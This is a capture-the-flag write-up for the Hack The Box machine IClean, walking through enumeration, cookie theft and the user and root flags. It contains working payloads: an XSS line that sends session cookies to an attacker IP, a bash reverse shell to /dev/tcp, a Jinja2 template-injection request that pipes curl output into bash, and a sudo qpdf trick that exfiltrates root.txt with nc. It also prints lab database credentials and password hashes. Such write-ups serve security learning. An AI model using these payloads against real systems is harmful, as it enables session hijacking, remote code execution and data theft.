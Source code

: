 User FLAG
-----

1. Scan with nmap
2. Found port 22,80
3. Add dns to /etc/hosts

```bash
dirsearch -u http://capiclean.htb -m GET

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Output File: /home/dyallo/.dirsearch/reports/capiclean.htb/_24-04-07_10-32-52.txt
Error Log: /home/dyallo/.dirsearch/logs/errors-24-04-07_10-32-52.log

Target: http://capiclean.htb/

[10:32:52] Starting: 
[10:33:13] 200 -    5KB - /about
[10:33:35] 302 -  189B  - /dashboard  ->  /
[10:33:48] 200 -    2KB - /login
[10:33:48] 302 -  189B  - /logout  ->  /
[10:34:02] 403 -  278B  - /server-status
[10:34:02] 403 -  278B  - /server-status/
[10:34:02] 200 -    8KB - /services

Task Completed
```

4. Found /login page
5. Tried sql injection, but no luck

```bash
python3 sqlmap.py --batch --dbs -r ~/Documents/Proyectos/hack-the-box/machines/iclean/req --ignore-code 401
```

6. Found /quote

```bash
wfuzz -c --hh=274 --hw=35 -w ~/Documents/Security/wordlists/common.txt -H "Host:FUZZ.capiclean.htb" -u http://capiclean.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://capiclean.htb/
Total requests: 4613

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                  
=====================================================================


Total time: 93.96585
Processed Requests: 4613
Filtered Requests: 4613
Requests/sec.: 49.09229
```

6. Tried XSS in /quote and found session cookie

```bash
<img/src/onerror="this.src='http://10.10.14.65/'+document.cookie;">
%3c%69%6d%67%2f%73%72%63%2f%6f%6e%65%72%72%6f%72%3d%22%74%68%69%73%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%36%35%2f%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%22%3e
session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhA2NQ.exhTMAlvjwi0f43YGz-4Ea14VoQ
```

7. Added session cookie in the page and now /dashboard is available

![dashboard](./files/image.png)

8. Generate Invoice (7499601381)

```bash
nc -lvpn 4444
sudo python3 -m http.server 80
```

```bash
# index.html
bash -i &> /dev/tcp/10.10.14.65/4444 0>&1
```

```
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
Content-Length: 269
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capiclean.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://capiclean.htb/QRGenerator
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhA2NQ.exhTMAlvjwi0f43YGz-4Ea14VoQ
Connection: close

invoice_id=7499601381&form_type=scannable_invoice&qr_link={%25+with+a+%3d+request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("curl+http%3a//10.10.14.65/|bash")["read"]()+%25}+{{+a+}}+{%25+endwith+%25}}
```

### Inside machine

```
/var/mail/consuela                                                                                
/var/spool/mail/consuela
/usr/share/bash-completion/completions/bind
/etc/hosts.allow
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:37941         0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      1210/python3                                                                              
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                                                                                         
tcp6       0      0 :::22                   :::*                    LISTEN      -    
```

Inside app.py there is this

```
# Database Configuration                                                                                                                                                  
db_config = {                                                                                                                                                             
    'host': '127.0.0.1',                                                                                                                                                  
    'user': 'iclean',                                                                                                                                                     
    'password': 'pxCsmnGLckUb',                                                                                                                                           
    'database': 'capiclean'                                                                                                                                               
} 
```

Inside `users` we found

admin `2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51`
consuela `0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa`

![alt text](./files/password.png)

password for ssh `simple and clean`

Root FLAG
-----

```bash
sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

```bash
find / -type f -iname '*.pdf' | grep -i ".pdf"
## We found this pdf /usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf
sudo /usr/bin/qpdf --add-attachment /root/root.txt -- /usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf output.pdf
nc -lvnp 1337 > output.pdf
nc 10.10.14.65 < output.pdf
```

Then I downloaded Adobe Acrobat Reader and opened the file

![root](https://cdn.discordapp.com/attachments/1199876678365749298/1226557815766913085/Screenshot_20240407-124231.png?ex=662533fb&is=6612befb&hm=5871518d75b408d86149ec8faf46d247d70e27461b99a78773ff6b0726bc80f0&)

## Versions

Flask 2.3.7
Python 3.10.12

## Links

- https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.md
- https://crackstation.net/
- https://qpdf.readthedocs.io/en/stable/cli.html
- https://play.google.com/store/apps/details?id=com.adobe.reader